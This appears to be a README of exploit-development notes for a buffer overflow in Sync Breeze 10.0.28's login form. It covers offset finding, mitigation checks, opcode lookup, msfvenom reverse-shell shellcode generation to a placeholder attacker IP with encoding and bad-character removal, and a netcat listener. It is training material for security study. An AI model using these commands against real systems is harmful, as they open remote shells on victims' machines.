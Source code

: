 ### A word about Sync Breeze Application (v10.0.28)(WITH NO MEMORY PROTECTION SCHEMES):
- When performing a buffer overflow for the POST /login method with username(placing the exploit here i.e. A's x 800) and password input fields, we come to find out that the following eip and esp registers point or have the following values:
  > memory_reg+0: 41414141 ------> eip  
  > memory_reg+4: 41414141  
  > memory_reg+8: 41414141 ------> esp  
  > memory_reg+C: 41414141  
  > memory_reg+k: ...
- To have a step by step view of the exploit development process, have a look at the code files present in **/exploit/02/** folder starting from [00_syncbrs_exploit.py](./exploits/02/00_syncbrs_exploit.py) to [06FINAL_syncbrs_exploit.py](./exploits/02/06FINAL_syncbrs_exploit.py)


### Binary Tree Analysis:
 - A method to find the right offset of which part of the input string sits right on the Instruction Pointer. First we start with n/2 A's and n/2 B's, then see which part of the character sits in the Instruction pointer. If B is present then we divide then B's half as n/4 B's and n/4 C's, so on and so forth adding new characters along the way until the exact bytes that overwrite the Instruction Pointer are found

### Metasploit Pattern utility:
- An alternative (much faster) to Binary Tree Analysis we can come up with a long string input made of non repeating byte chunks where later that unique sequence(that sits on **Instruction Pointer**) could be used to further our exploitation process replacing that unique byte with a legit address to change the control flow
- This can be done using a tool(present in kali linux) called **msf-pattern_create** as follows:
  > `msf-pattern_create -l <input_length_that_caused_overflow>`
  - Later this can be used as a value in our input buffer to proceed with the exploitation process
- Then we try to run the application with our input buffer attaching it to a debugger we notice that the IP now has been replaced with the the byte chunk that was given as an input.
- Now to find the offset of where the IP gets replaced in the string, we use another tool called **msf-pattern_offset** as follows:
  > `msf-pattern_offset -l <input_length_that_caused_overflow> -q <bytes_present_in_IP>`

### Process Hacker:
- When developing an exploit we try to see where to return to a specific module that shouldn't have null characters or see whether there are any memory protection schemes present for that module, we can identify them in ease with this tool
- Inspecting the running vulnerable process > double click > General Tab > Process Section > Mitigation policies field if says None then it has no memory protection schemes integrated with it
- Browsing to the Modules tab, provides with all the DLLs that are loaded in the process memory, and we can double click > General Tab > Characteristics field displays whether DLL is integrated with any memory protection schemes

### Opcode Creation:
- We can make use of **msf-nasm-shell** (present in kali linux) as follows:
  > `msf-nasm_shell`
  >
  > nasm > `jmp esp` -----> get the opcode for this asm instruction
  >
  > 00000000 **FFE4** jmp esp -----> FFE4 being the opcode

### Msfvenom Shellcode Creation:
- We can build our shellcode with **msfvenom** tool as follows:
  > `msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f c`
- However when the shellcode is generated we need to remove bad characters from it that we'd have identified during our exploitation process
- For this we can make use of an advanced polymorphic encoder called as **shikata_ga_nai** as follows:
  > `msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f c -e x86/shikata_ga_nai -b "\x00\x....all_bad_chars"`
- Another problem to address is that when we exploit and terminate our reverse shell session, the vulnerable process completely exits the application and not the current thread
- So in order to terminate the thread and not the whole process we make use of an option called **EXITFUNC** with the value of **thread** as follows:
  > `msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x....all_bad_chars"`

### Netcat Listener:
- To create a Reverse Shell:
  > `sudo nc -lvp <attacker_port>`
